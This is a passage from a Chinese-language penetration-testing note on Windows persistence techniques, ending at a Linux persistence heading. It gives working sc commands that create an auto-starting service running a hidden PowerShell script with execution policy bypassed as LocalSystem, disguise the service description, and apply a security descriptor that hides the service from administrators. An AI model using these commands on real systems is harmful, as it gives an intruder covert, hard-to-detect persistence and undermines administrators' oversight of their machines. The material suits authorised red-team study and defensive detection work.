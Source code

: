 2. `at` 命令（Windows 早期版本）

3. `powershell`



#### 服务维持

##### 服务介绍

服务（即，以前的 `NT` 服务）使用户可以能够创建自己在 `Windows` 会话中长时间运行的可执行应用程序，这些服务可以在计算机启动的时候自动启动，也可以暂停和重新启动，而且不显示任何的用户界面。

这种服务非常适合在服务器上使用，或任何时候，为了不影响在同一台计算机上工作的其他用户，需要长时间运行功能时使用。还可以在不同于登录用户的特定用户账户或默认计算机账户的安全上下文中运行服务

##### 服务维持权限

创建一个服务（服务名为： `shell`）启动 `ps1` 脚本

> 创建服务
>
> `sc create shell start= auto binPath= "cmd.exe /k powershell.exe -w hidden -ExecutionPolicy Bypass -NoExit -File C:\Users\Administrator\Desktop\shell.ps1" -obj= Localsystem`
>
> 伪装服务描述
>
> `sc description "shell" "伪装后的服务描述"`
>
> 设置服务自启
>
> `sc config "shell" start= auto`
>
> 启动服务
>
> `net start "shell"`

##### 隐藏服务

隐藏服务

```powershell
sc sdset shell "D:(D;;DCLCWPDTSDCC;;;IU)(D;;DCLCWPDTSDCC;;;SU)(D;;DCLCWPDTSDCC;;;BA)
(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)
(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```

恢复隐藏服务

```powershell
sc sdset shell "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)
(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```



#### 其他



### Linux  权限维持
